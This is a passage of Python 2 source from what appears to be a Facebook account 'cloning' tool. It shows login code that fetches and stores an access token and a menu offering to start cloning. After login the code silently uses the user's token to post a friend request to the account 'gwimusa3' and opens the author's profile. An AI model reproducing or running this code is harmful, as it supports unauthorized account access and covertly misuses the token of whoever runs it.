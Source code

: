 				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m\x1b[1;92mLogin Successful'
				os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m \x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m \x1b[1;91mIt seems that your account has a checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m \x1b[1;91mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[1;96m \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;96m \033[1;91mIt seems that your account has a checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\033[1;96m \x1b[1;91mThere is no internet connection"
		keluar()
	os.system("clear")
	print logo
	print 42*"\033[1;96m="
	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m               "
	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start CLONING WITH DJ"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit            "
	pilih()
def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")